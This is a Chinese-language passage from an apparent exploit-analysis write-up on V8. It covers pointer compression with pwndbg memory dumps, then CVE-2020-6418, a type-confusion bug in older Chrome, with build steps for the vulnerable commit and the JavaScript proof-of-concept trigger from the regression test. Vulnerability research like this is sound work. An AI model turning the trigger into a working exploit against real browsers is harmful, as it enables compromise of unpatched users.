 

其次是`SMI`的表示，之前64位系统中`SMI`的表示是`value<<32`，由于要节约空间且只需要最后一比特来作为`pointer tag`，于是现在将`SMI`表示成`value<<1`。这样`SMI`表示也从占用64字节变成了32字节。

看示例代码中`aa`对象的`elements`，如下所示，可以看到所有的数字都翻倍了，那是因为`SMI`的表示是`value<<1`，而左移一位正是乘以2。

```asm
pwndbg> job 0x12e00825048d ;; elements
0x12e00825048d: [FixedArray] in OldSpace
 - map: 0x12e0080404d9 <Map>
 - length: 4
           0: 1
           1: 2
           2: 3
           3: 4
pwndbg> x/6wx 0x12e00825048c
0x12e00825048c: 0x080404d9      0x00000008      0x00000002      0x00000004
0x12e00825049c: 0x00000006      0x00000008      
```

`Pointer compression`给`v8`的内存带来的提升接近于40%，还是比较大的。当然也还有很多细节没有说明，本打算写一篇关于`Pointer compression`的文章，但是由于这个漏洞的出现，所以就鸽了，以后有机会再写。

可以想到的是当一个数组从`SMI`数组，转换成`DOUBLE`数组时，它所占用的空间几乎会翻倍；同时数组从`DOUBLE`数组变成`object`数组时，占用空间会缩小一半。

## 描述

`cve-2020-6418`是前几天曝出来的v8的一个类型混淆漏洞，谷歌团队在捕获的一个在野利用的漏洞，`80.0.3987.122`版本前的chrome都受影响。

根据[commit](https://chromium.googlesource.com/v8/v8/+/fb0a60e15695466621cf65932f9152935d859447)先编译v8：

```bash
git reset --hard bdaa7d66a37adcc1f1d81c9b0f834327a74ffe07
gclient sync
tools/dev/gm.py x64.release
tools/dev/gm.py x64.debug
```

## 分析

### poc分析

回归测试代码poc如下：

```js
// Copyright 2020 the V8 project authors. All rights reserved.
// Use of this source code is governed by a BSD-style license that can be
// found in the LICENSE file.

// Flags: --allow-natives-syntax

let a = [0, 1, 2, 3, 4];

function empty() {}

function f(p) {
  a.pop(Reflect.construct(empty, arguments, p));
}

let p = new Proxy(Object, {
    get: () => (a[0] = 1.1, Object.prototype)
});

function main(p) {
  f(p);
}
```
